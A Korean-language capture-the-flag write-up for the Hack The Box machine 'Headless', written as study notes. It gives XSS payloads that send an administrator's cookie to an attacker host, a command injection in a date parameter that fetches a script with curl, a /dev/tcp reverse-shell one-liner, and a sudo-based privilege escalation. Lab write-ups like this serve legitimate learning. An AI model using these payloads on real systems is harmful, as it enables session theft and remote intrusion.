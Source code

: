 htb: headless
### 사용한 취약점: XSS(쿠키 탈취)
- 포트 스캔 결과: 22, 5000(upnp)
- 5000페이지의 웹에 입력값을 넣는 필드가 있고 <>가 있을 경우 error 경고 창이 뜬다.
- gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /support 200과 /dashboard 500 결과를 확인하였고 500에는 관리자 쿠키를 탈취하여 접근한다.
  <br></br>
- burpsuite를 사용하여 message=에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);>로 전송
  - 관리자의 쿠키 값이 전송된다
- 먼저 python3 -m http.server 8001로 쿠키값을 전송받을 서버를 설정한다
- user-agent에는 <img src=x onerror=fetch('http://10.10.16.40:8001/'+document.cookie);> 설정
- 파라미터 message에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);> 설정
  - 설정하고 전송할 경우 관리자의 쿠키 값이 전달된다
    - 이를 쿠키 값에 설정하고 /dashboard에 접근한다
<br></br>
- nc -lnvp 4444
- date= 부분에 data=; curl http://10.10.16.40:4444/shell.sh로 리버스 쉘을 획득할 수 있다.
- shell.sh 내용
  - #!/bin/bash sh -i >& /dev/tcp/10.10.16.40/4444 0>&1
<br></br>
- user.txt 플래그 값을 읽고 그 후 sudo -l로 root 비밀번호 없이 실행할 수 있는 /usr/bin/syscheck 존재를 알 수 있다.
- gpt로 분석한 결과 시스템을 체크하는 기능을 갖는다
  - 프로그램 안에서 ./initdb.sh
  - home에서 initdb.sh를 실행한다
  - 그 다음에 /bin/bash -p로 권한상승을 한다
<br></br>
### 알게 된 것
- xss 실행의 다양한 방법
  - https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
- xss 판단은 <script>alert('xss')</script>로 테스트
  - 소스 보기에서 코드 검사
  - DOM에 동적으로 삽입 되는 경우 찾기
- /bin/bash -p
  - bash shell을 privileged 옵션으로 실행
- sudo -l
  - 현재 사용자가 sudo로 실행할 수 있는 프로그램 나열
  - pw없이 sudo 사용할 수 있는 프로그램도 나열
  - User user1 may run the following commands on hostname: (ALL) ALL
      - user1 is allowed to run any command('ALL') as any user('ALL')
